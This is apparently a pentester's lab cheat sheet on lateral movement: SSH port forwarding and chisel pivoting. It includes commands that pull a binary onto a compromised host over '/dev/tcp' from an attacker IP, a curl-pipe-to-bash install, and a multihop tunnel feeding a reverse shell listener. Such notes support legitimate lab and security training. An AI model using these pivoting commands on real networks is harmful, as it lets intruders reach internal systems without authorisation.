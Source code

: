 ```yaml
---
icon: person-to-portal
---
```


# Lateral Movement

<details>

<summary><mark style="color:orange;"><strong><code>SSH</code></strong></mark> <mark style="color:purple;"><strong>Tunneling</strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Dynamic Port Forwarding`**</mark>

{% code title="Check  proxychains port" %}
```sh
tail /etc/proxychains.conf
```
{% endcode %}

{% code title="Create a SOCK proxy" %}
```sh
ssh charix@10.10.10.84 -D 9050
```
{% endcode %}

{% code title="Now just use proxychains:" overflow="wrap" %}
```sh
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Local Port Forwarding`**</mark>

{% code overflow="wrap" %}
```sh
ssh -L PORT:localhost:PORT user@remotehost.com
```
{% endcode %}

{% code title="Without interactive session" overflow="wrap" %}
```sh
ssh -L 8080:127.0.0.1:8080 -N -vv User@REemoteHost
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Remote Port Forwarding`**</mark>

```sh
ssh root@10.10.10.65 -R 4443:10.10.14.6:443
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>chisel</code></strong></mark></summary>

{% code title="Install chisel" %}
```sh
curl https://i.jpillora.com/chisel! | bash
```
{% endcode %}

{% hint style="info" %}
<mark style="color:red;">**`Transfer chisel to a target`**</mark>

{% code title="Copy the binary" overflow="wrap" %}
```sh
cp /usr/local/bin/chisel .
```
{% endcode %}

{% code title="Set netcat" %}
```sh
nc -lvnp 80 < chisel
```
{% endcode %}

<mark style="color:red;">**`Now on the remote host`**</mark>

```sh
cd /var/tmp
```

{% code lineNumbers="true" %}
```sh
cat < /dev/tcp/10.10.14.172/80 > chisel
bash -c "cat < /dev/tcp/172.19.0.4/7011 > chisel"
```
{% endcode %}

```sh
chmod 755 /var/tmp/chisel
```
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Create a tunnel`**</mark>

{% code title="Start the server locally" overflow="wrap" %}
```sh
/usr/local/bin/chisel server -p 8002 -reverse -v
```
{% endcode %}

{% code title="Start the tunnel remotely" overflow="wrap" %}
```sh
/var/tmp/chisel client 10.10.14.172:8002 R:127.0.0.1:8001:172.19.0.2:80
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Multihop tunnel for reverse shell`**</mark>

* <mark style="color:purple;">**First start the new server on your attacking host:**</mark>

{% code overflow="wrap" %}
```sh
/usr/local/bin/chisel server -p 5000 -reverse -v
```
{% endcode %}

* <mark style="color:purple;">**Set also the listener:**</mark>

```sh
nc -lvnp 9005
```

* <mark style="color:purple;">**Now set the first hop:**</mark>

{% code overflow="wrap" %}
```sh
/var/tmp/chisel client 10.10.14.172:5000 6010:127.0.0.1:5000
```
{% endcode %}

* <mark style="color:purple;">**Finally set the second hop:**</mark>

{% code overflow="wrap" %}
```sh
/var/tmp/chisel client 172.19.0.4:6010 7020:127.0.0.1:9005 &
```
{% endcode %}
{% endhint %}

</details>
